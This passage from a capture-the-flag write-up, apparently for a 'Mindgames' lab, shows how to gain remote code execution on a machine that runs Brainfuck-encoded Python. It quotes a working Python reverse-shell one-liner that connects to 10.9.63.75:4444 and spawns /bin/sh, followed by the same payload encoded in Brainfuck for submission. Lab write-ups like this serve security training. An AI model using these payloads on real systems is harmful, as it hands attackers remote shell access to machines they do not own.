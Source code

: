 ![Untitled](/assets/Mindgames%20images/Untitled%203.png)

The plaintext are blocks of Python code. Therefore, I will need a **reverse shell python** to implement the RCE attack on the target machine

## Exploit

### Gain Access - RCE

I take a reverse shell payload from this [source](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md):

```
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.63.75",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++.++++.+++.-.+++.++.<<++.>>-.----.------------.++++++++.------.+++++++++++++++.<<++++++++++++.>>-----.++++.<<.>>---.++++.+++++.<-----------.>------.<++.>.----.------------.++++++++.------.+++++++++++++++.<<++.>>-.----.------------.++++++++.------.+++++++++++++++.<<------.>>-.----.------------.++++++++.------.+++++++++++++++.<<++++++.>++++.+++++.>---------------------.<+++.+++++.---------.>-----------.<<--.>>+++++++++++++++++++++++++++++++.----.------------.++++++++.------.+++++++++++++++.<<++.>++++++++++++++.----.------------.++++++++.++++++++++++++++++++.------------.+.--.-------------.----.++++++++++++.<-----.++++++++++++++++++.>>-.<<-------------.>>----------------.++++++++++++.-..---------.--.+++++++++++++++++.<<------..------.+++++++++++++++.-.--.+++++++++++.-----------.++++++++.---.-----.+++++++++.--.-------------------.++++++++++.++++++++....-----------..++++++++++++++++++.>>-----.++++.<<-------------.>>---------------.+++++++++++++++++.-----.<<++++.----------.>>+++.<<++++++.>>-------------.+++.+++.-------.+++++++++.+.<<------.+.+++.++++.-------.++++++++++++++++++.>>.++++.<<-------------.>>---------------.+++++++++++++++++.-----.<<++++.----------.>>+++.<<++++++.>>-------------.+++.+++.-------.+++++++++.+.<<------.+.+++.+++++.--------.++++++++++++++++++.>>.++++.<<-------------.>>---------------.+++++++++++++++++.-----.<<++++.----------.>>+++.<<++++++.>>-------------.+++.+++.-------.+++++++++.+.<<------.+.+++.++++++.---------.++++++++++++++++++.>>+.++++.+++++.<<-------------.>>------.---.---------------.++++++++++++++++++++++.---------.<<------.------.+++++++++++++.>>------------.+++++++.+++++.<<.>>+++++.-----------.<<-------------.+++++++.
```

